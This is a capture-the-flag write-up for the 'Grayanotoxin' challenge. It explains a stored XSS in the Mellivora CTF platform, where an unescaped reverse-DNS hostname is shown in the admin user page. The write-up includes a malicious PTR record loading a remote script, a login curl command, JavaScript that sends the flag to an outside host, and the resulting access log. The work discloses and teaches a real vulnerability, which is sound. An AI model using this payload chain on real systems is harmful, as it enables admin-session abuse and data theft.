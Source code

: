 # Grayanotoxin

Original task description:
```
Grayanotoxin
1000
Authors: Sin__, DarkyAngel

This challenge should prove very interesting:

the configuration consists of a vanilla Mellivora install from the repo (commit 0a7181250972715fe7d391bbd538eeba16a80356)
the flag is the same as the flag for the only challenge added on Mellivora, which you need to obtain
the initial setup is backed up and restored every hour
the challenge is solvable because the platform is exploitable
if you've found an exploitable bug but require some resources that might not be available on short notice due to the limited duration of the CTF, let the author know as we also have something prepared for this situation. Note that resources we will (obviously) not provide include: VPSes, CPU time, etc
the instance is running in an Alpine Linux docker environment with the following environment variables:
      MELLIVORA_CONFIG_DB_ENGINE: mysql
      MELLIVORA_CONFIG_DB_HOST: db
      MELLIVORA_CONFIG_DB_PORT: 3306
      MELLIVORA_CONFIG_DB_NAME: ******
      MELLIVORA_CONFIG_DB_USER: ******
      MELLIVORA_CONFIG_DB_PASSWORD: ******
      MELLIVORA_CONFIG_RECAPTCHA_ENABLE_PUBLIC: 'true'
      MELLIVORA_CONFIG_RECAPTCHA_PUBLIC_KEY: *****
      MELLIVORA_CONFIG_RECAPTCHA_PRIVATE_KEY: *****
      MELLIVORA_CONFIG_SITE_URL: http://52.157.103.137:13370/
      MELLIVORA_CONFIG_SITE_URL_STATIC_RESOURCES: http://52.157.103.137:13370/
Note that we didn't add a mail server to prevent spamming so you might see a few exceptions here and there.

We have also made a setup modification that prevents defacing (your exploit will work unmodified; it does not make the exploit any easier or any harder)

Go for it: http://52.157.103.137:13370/scores
```
TL;DR: https://github.com/Nakiami/mellivora/issues/123

First of all, a quick recon on "Grayanotoxin" yields the following from Wikipedia:
```
Grayanotoxins are a group of closely related neurotoxins [...]. Consumption of
the plant or any of its secondary products, including mad honey, can cause a
rare poisonous reaction called grayanotoxin poisoning, mad honey disease, honey
intoxication, or rhododendron poisoning.
```
Let's start by breaking down the description to see what info we currently have available.

1. the configuration consists of a vanilla Mellivora install from the repo (commit `0a7181250972715fe7d391bbd538eeba16a80356`)

Note that Mellivora is the scientific name of the honey badger. Putting this in context with the title, it hints at poisoning the CTF platform some how. The commit is relatively new (it was `master` at the time when the challenge was created) and the commits after it only update tests, which means it's either a 0day or something else introduced later on in the challenge.

2. the flag is the same as the flag for the single challenge added on Mellivora, which you need to obtain

The flag is a challenge itself on the platform, so we need either DB access / RCE / something else that may be introduced later on.

3. the initial setup is backed up and restored every hour

Pretty standard, reasons may vary, however one of them can be that people can break the challenge for others, or make it harder.

4. the challenge is solvable because the platform is exploitable

Okay, direct hint that it *is* indeed a 0day in Mellivora.

5. if you've found an exploitable bug but require some resources that might not be available on short notice due to the limited duration of the CTF, let the author know as we also have something prepared for this situation. Note that resources we will (obviously) not provide include: VPSes, CPU time, etc

Sounds intriguing and this will be helpful, but we'll come back to this later.

6. the instance is running in an Alpine Linux  docker environment with the following environment variables:

Pretty standard env config, captcha enabled. However, one interesting thing to note here is that *Alpine Linux docker* is mentioned, however the standard Mellivora docker-compose uses `php:7-apache`, which is based on Debian.

7. - note that we didn't add a mail server to prevent spamming so you might see a few exceptions here and there
   - we have made a setup modification that prevents defacing (your exploit will work unmodified; it does not make the exploit any easier or any harder)

Those two go hand in hand and are linked to a few exceptions that we can see when interacting with the service. Most things are read-only based on the exceptions, and "to prevent defacing" means that the exploit will eventually lead to manipulating the content (if it wasn't obvious from all the points, restricting it to RCE / XSS - admin takeover)

Recap of the things we found so far from the description: it is a 0day vulnerability of Mellivora itself, it happens in a non-standard Alpine environment, it is an RCE, XSS or something among those lines.

Here comes the tedious part - finding the vulnerability. Mellivora is open source, and the code can be analyzed by anyone. Depending on your hawk skills, the following interesting bit can be observed in the admin users layout: https://github.com/Nakiami/mellivora/blob/0a7181250972715fe7d391bbd538eeba16a80356/include/layout/user.inc.php#L302-L303

**Never trust user input**. The user's IP is being sanitized through `htmlspecialchars`, however, one line below that, the result of `gethostbyaddr` is not. `gethostbyaddr` for the uninitiated, does a reverse hostname lookup for a specified IP. This is done through PTR records in reverse-lookup zones, which can only be added by an address holder. Ah ha! This is where the "resources that might not be available on short notice" come into play. We need an IP with a PTR record as an XSS.

In order to get a custom PTR record with special characters, you would need a very permissive VPS provider, or you would need to own an IP block or know someone that does and wants to help you with this. We tried around 15 providers... Most major cloud service providers that allow setting custom PTR records restrict the format to the standard one [introduced in RFC1912](https://tools.ietf.org/html/rfc1912):

> Allowable characters in a label for a host name are only ASCII letters, digits, and the `-` character.

As a solution to make this feasible by the time the CTF ends, if you don't already have an arrangement as described, we linked the host of the docker to a DNS server where, if asked, we could add a zone entry for an IP that a team controlled (which would be the master). Next, the solver would setup a custom PTR record in their instance of the bind server and feed whatever they needed for the IP they controlled in order to obtain the XSS.

However, to prove that this can be done in the real world as well, not just with custom DNS entries, we obtained control over the PTR of an IP. At the time of writing this article (3 October 2019) the following PTR record is under our control:

```
dig @4.2.2.2 -x 93.113.125.10


; <<>> DiG 9.11.3-1ubuntu1.8-Ubuntu <<>> -x 93.113.125.10
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 31822
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 8192
;; QUESTION SECTION:
;10.125.113.93.in-addr.arpa.	IN	PTR

;; ANSWER SECTION:
10.125.113.93.in-addr.arpa. 86400 IN	PTR	<script/src=//95.179.178.59/a.js></script>.

;; Query time: 552 msec
;; SERVER: 4.2.2.2#53(4.2.2.2)
;; WHEN: Wed Oct 02 21:03:07 UTC 2019
;; MSG SIZE  rcvd: 111
```

Ok, back to our setup:

![reverse dns](mellivora1.png)


In the example above and the IPs that we were using to test the solution, `95.179.178.59` is the IP whose PTR record has an XSS payload. Which means, we need to login as a user from that IP so that it gets added to the database. This is simply done through a curl (login through the browser, log the request in the network tab, right click on it > copy as curl):

```
curl 'http://52.157.103.137:13370/actions/login' --data 'ee785dc77b7f75dd630531458c0414f1=test%40test.test&7439ebf2f34d35ab1a8dfee7ae3a77a8=testtest&action=login&redirect=%2Factions%2Fregister'
```

To replicate a real live CTF platform as close to the real thing as possible, we implemented an admin bot that logs in and starts visiting user profiles to get hooked by the XSS. The easiest way to exploit this is to set a PTR record that includes a script from somewhere else and we can modify the script directly, instead of messing with the PTR each time. The example above that we used for testing is:

```
<script/src=//95.179.178.59/a.js></script>.
```

Now the admin will get the script at `95.179.178.59/a.js` on each visit on the user's page in the admin panel. A first obvious attempt would be to extract the PHPSESSID of the admin from the cookies, however in this setup the cookie is HttpOnly and cannot be stolen.

Attempt 2. Knowing that the flag is the same flag as one of the challenges, knowing the specific challenge ID, and the details to reproduce this, it is trivial to generate a JS code that can request the challenge admin edit page and exfiltrate the flag. One example payload that does just this, and that we've used for testing the solution is the following:

```
fetch("http://52.157.103.137:13370/admin/edit_challenge.php?id=1").then(s => s.text()).then(s => {
  const flag = /PTBCTF\{[a-z0-9]+\}/g.exec(s);
  document.location = "http://159.65.92.245/flg?" + encodeURIComponent(flag);
})
```

This one simply accesses the edit challenge page, does a regex match for the flag format and sends it to the server on `159.65.92.245`, which we monitored. Lo and behold, after a few minutes we can see this in the access log:

```
52.157.103.137 - - [10/Sep/2019:11:37:42 +0000] "GET /flg?PTBCTF%7Bf924aaf0750b317ac28421a2ec784250%7D HTTP/1.1" 404 152 "http://web:13370/admin/user?id=1" "Mozilla/5.0 (X11; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0"
```

Note: there is a tricky part that we didn't take into consideration, which is: *why* did we use Alpine instead of the standard environment provided in the Mellivora wiki. Well, from our tests so far, the standard libc will return the IP directly instead of a reverse hostname with special chars (we did not further check if it is possible using a restricted set of special characters), rendering the exploit useless. *However* the musl libc, which is being used in Alpine Linux and other lightweight containers, will return it directly with no problems.

Final note: had we not made most things read-only in the database, the potential of the XSS would've been a direct RCE, exploited by manipulating the dynamic pages functionality and inserting custom PHP code.
